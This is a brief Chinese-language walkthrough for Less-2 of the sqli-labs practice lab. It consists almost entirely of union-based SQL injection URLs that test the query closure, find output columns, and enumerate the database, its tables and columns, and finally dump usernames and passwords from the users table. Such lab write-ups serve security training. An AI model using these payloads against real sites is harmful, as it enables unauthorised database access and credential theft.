

# Less  - 02

---

# 通关教程

---

## 1、判断闭合

---

使用的payload如下

```http
http://127.0.0.1/sql1/Less-2/?id=1
http://127.0.0.1/sql1/Less-2/?id=1'
http://127.0.0.1/sql1/Less-2/?id=1--+
```

​​

​​

## 2、查看回显位置

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,2,3--+
```

​​

## 3、查看当前数据库和用户

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,database(),user()--+
```

​​

## 4、查看数据表

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),user()--+
```

​​

## 5、查看数据表的字段

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),user()--+
```

​​

## 6、查看字段值

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,(select group_concat(username,password) from security.users),user()--+
```

​​

‍
